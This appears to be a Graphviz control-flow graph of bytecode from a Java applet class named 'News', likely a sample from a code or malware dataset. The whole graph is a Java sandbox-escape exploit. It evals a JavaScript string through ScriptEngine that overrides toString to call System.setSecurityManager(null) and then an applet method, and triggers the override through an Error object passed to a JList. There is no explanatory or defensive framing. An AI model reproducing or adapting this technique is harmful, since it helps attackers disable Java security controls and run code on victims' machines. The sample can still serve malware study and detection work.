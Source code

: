 digraph "" {
    "r0 := @this: News"
    "staticget <java.lang.Boolean: java.lang.Boolean FALSE>"
    "r0 := @this: News"->"staticget <java.lang.Boolean: java.lang.Boolean FALSE>";
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"
    "staticget <java.lang.Boolean: java.lang.Boolean FALSE>"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "new javax.script.ScriptEngineManager"
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"applet\""
    "load.r r1"->"push \"applet\"";
    "load.r r0"
    "push \"applet\""->"load.r r0";
    "interfaceinvoke <javax.script.ScriptEngine: void put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.ScriptEngine: void put(java.lang.String,java.lang.Object)> 2";
    "ifeq load.r r0"
    "interfaceinvoke <javax.script.ScriptEngine: void put(java.lang.String,java.lang.Object)> 2"->"ifeq load.r r0";
    "ifeq load.r r0"->"staticget <java.lang.Boolean: java.lang.Boolean FALSE>";
    "staticget <java.lang.Boolean: java.lang.Boolean FALSE>"->"virtualinvoke <java.lang.Boolean: boolean booleanValue()>";
    "pop"
    "virtualinvoke <java.lang.Boolean: boolean booleanValue()>"->"pop";
    "pop"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push 0"->"load.r r1";
    "push \"function toString(){Packages.java.lang.System.setSecurityManager(null); applet.sGetNews();return \'WRONG!\'};function scltk(){var mierror = new Error(); mierror.message = this; return mierror;}; scltk();\""
    "load.r r1"->"push \"function toString(){Packages.java.lang.System.setSecurityManager(null); applet.sGetNews();return \'WRONG!\'};function scltk(){var mierror = new Error(); mierror.message = this; return mierror;}; scltk();\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "push \"function toString(){Packages.java.lang.System.setSecurityManager(null); applet.sGetNews();return \'WRONG!\'};function scltk(){var mierror = new Error(); mierror.message = this; return mierror;}; scltk();\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <News: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <News: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <News: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <News: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
